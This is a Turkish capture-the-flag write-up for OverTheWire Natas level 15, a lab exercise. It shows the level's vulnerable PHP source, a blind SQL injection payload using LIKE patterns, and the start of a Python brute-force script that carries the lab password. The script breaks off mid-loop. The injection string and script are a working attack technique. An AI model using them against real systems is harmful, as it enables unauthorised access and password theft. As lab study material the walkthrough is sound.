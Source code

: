 ## Level 15 -> Level 16

Bu seviyedeki php kodunu incelediğimizde "blind sql injection" olduğunu görebiliriz. Yani sql cıktısını bize geri döndermiyor. Fakat yinede çıktıdan doğru sql sorgusu ile bir şeyler yapabiliriz.

```php
<?
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```

sayfadaki girdiye natas16 yazdığımızda kullanıcının olduğunu görüyoruz. Sorguyu şu şekilde yaparsak parola ile ilgili bilgi alabiliriz. `natas16" AND password LIKE "%a%" #`. Burada parola içinde 'a' karakterinin geçtiğini yada geçmediğini anlayabiliriz. Eğer bütün karakterler için bu işlemi yaparsak şifrenin hangi karakterlerden oluştuğunu buluruz. Daha sonra bu karakterler ile bruteforce yaparak şifreyi elde edebiliriz.

Bruteforce saldırısı için python scripti yazabiliriz. Bu script için requests modülünü kullandım. Aşağıdaki python kodu 2 aşamadan oluşuyor:

* Aşama 1: Şifrenin ilerdiği karakterlerin bulunması. Bu aşama ile bruteforce saldırı süresini önemli ölçüde kısaltırız.
* Aşama 2: Bulunan karakterler ile bruteforce saldırısı yap.

```python
import requests
from requests.auth import HTTPBasicAuth

chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
filtered = ''
passwd = ''

for char in chars:
    Data = {'username' : 'natas16" AND password LIKE "%' + char + '%" #'} # request ile gönderilecek parametre
    r = requests.post('http://natas15.natas.labs.overthewire.org/index.php?', auth=HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data = Data)
    if 'exists' in r.text:  # eğer kullanıcı mevcutsa.
```

[1]: (http://natas5.natas.labs.overthewire.org)
[2]: (http://natas6.natas.labs.overthewire.org/includes/secret.inc)
[3]: (http://bilgisayarkavramlari.sadievrenseker.com/2009/04/20/yahut-sifrelemesi-xor-encryption/)
[4]: (http://www.wiki-zero.co/index.php?q=aHR0cHM6Ly9lbi53aWtpcGVkaWEub3JnL3dpa2kvS25vd24tcGxhaW50ZXh0X2F0dGFjaw)
[5]: https://stackoverflow.com/questions/18357095/how-to-bypass-the-exif-imagetype-function-to-upload-php-code